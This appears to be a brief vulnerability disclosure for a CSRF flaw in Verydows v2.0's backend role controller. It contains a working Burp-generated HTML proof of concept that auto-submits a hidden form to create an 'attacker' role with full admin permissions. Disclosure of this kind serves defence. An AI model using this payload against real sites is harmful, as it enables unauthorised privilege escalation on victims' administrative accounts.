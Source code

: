 target:https://gitee.com/cigery/verydows

version:v2.0

Verydows v2.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /protected/controller/backend/role_controller


![](image/Added%20CSRF%20in%20Role%20Controller/image-20231220213209690.png)

create poc

![](image/Added%20CSRF%20in%20Role%20Controller/Snipaste_2023-12-20_21-33-54.png)

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://localhost/index.php?m=backend&c=role&a=add&step=submit" method="POST">
      <input type="hidden" name="role&#95;name" value="attacker" />
      <input type="hidden" name="role&#95;desc" value="" />
      <input type="hidden" name="role&#95;acl&#91;&#93;" value="admin&#64;index" />
      <input type="hidden" name="role&#95;acl&#91;&#93;" value="admin&#64;add" />
      <input type="hidden" name="role&#95;acl&#91;&#93;" value="admin&#64;edit" />
      <input type="hidden" name="role&#95;acl&#91;&#93;" value="admin&#64;delete" />
      <input type="hidden" name="role&#95;acl&#91;&#93;" value="role&#64;index" />
      <input type="hidden" name="role&#95;acl&#91;&#93;" value="role&#64;add" />
      <input type="hidden" name="role&#95;acl&#91;&#93;" value="role&#64;edit" />
      <input type="hidden" name="role&#95;acl&#91;&#93;" value="role&#64;delete" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

successed

![](image/Added%20CSRF%20in%20Role%20Controller/image-20231220213602214.png)

![](image/Added%20CSRF%20in%20Role%20Controller/image-20231220213621857.png)

